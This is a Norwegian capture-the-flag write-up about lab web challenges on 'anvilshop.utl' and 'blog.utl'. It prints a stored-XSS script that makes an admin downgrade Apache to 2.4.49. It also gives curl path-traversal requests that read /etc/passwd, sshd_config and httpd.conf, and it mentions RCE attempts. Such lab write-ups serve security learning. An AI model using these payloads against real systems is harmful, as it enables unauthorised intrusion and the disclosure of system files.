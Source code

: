 Vi har fortsatt ikke tilgang selv til */admin/update*, men vi kan få admin til å endre versjonsnummeret til serveren for oss med samme XSS-exploit som flagg 3, bare med annen payload i selve scriptet.

Her trenger vi ikke noen kjørende server for å få responsen fra admin, ettersom vi kan se i HTML-koden at det bare sendes en POST-request til */admin/update* for å endre server-versjonen.

XSS-scriptet som fikk æren av å utføre dette ble seende slik ut:
```python
import requests

s = requests.Session()
cookie = {"session": "eyJmbGFnIjoiMGEwZGZmZmRmYTdhN2U2ZDRhYzBhNGM1YWI0N2E1YjEiLCJ1c2VyX2lkIjoxNn0.Yb4jYQ.zIC4uLs8BbGY7jdKECjQHITekHk"}

script = """<script>
    xhr = new XMLHttpRequest();
    xhr.open("POST","/admin/update", true);
    xhr.setRequestHeader('Content-type','application/x-www-form-urlencoded');
    xhr.send("service=apache&version=2.4.49");
</script>"""

blogpost = {"title": "Mission Plan", "body": script}
res = s.post("http://blog.utl/create", data=blogpost, cookies=cookie)
s.close()
```

Etter at vi har negradert versjonen til apache-serveren finner vi flagget i meta-tagen til responsen fra nettsiden. `curl "anvilshop.utl"` `<meta name="flag" content="00842a5bf49b12b9d0ac692d87e3c27d">`


## 2.5_webserver_2
Vi har fått vite om et endpoint for anvilshop-nettstedet som brukes i denne oppgaven: `anvilshop.utl/cgi-bin/lootd.v2/download?app.apk`. Dette endpointet (cgi-bin) kan man også finne ved å se i *robots.txt* for nettstedet.

Nå som vi har nedgradert apache-versjonen kan vi prøve å bruke path-traversal, og RCE. Etterhvert vil det vise seg at RCE ikke er mulig grunnet konfigueringen av apache-serveren (en cgi-modul som ikke brukes, som visstnok skal være nødvending for RCE til å fungere). Path-traversal er derimot mulig, og vi kan f.eks ta en kikk på */etc/passwd* `curl "anvilshop.utl/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd"`. Helt nederst i */etc/passwd* finner vi flagg 5.

Man kan finne flagg 5 på to andre måter i tillegg:
- `curl "anvilshop.utl/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/ssh/sshd_config"`
- `curl "anvilshop.utl/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/apache2/httpd.conf"`


## 2.9_pam
Denne oppgaven tok unødvendig lang tid. Jeg prøvde først å implementere koden under i C, men en liten feil i scriptet gjorde at det scriptet ikke funket. Det var derimot mye enklere å bruke javascript for å løse denne oppgaven.

Hvis man kjører en nmap-scan på anvilshop vil man kunne se at i tillegg til at port 80 er åpen (som er apache-serveren), så er port 22 også åpen (ssh-port).
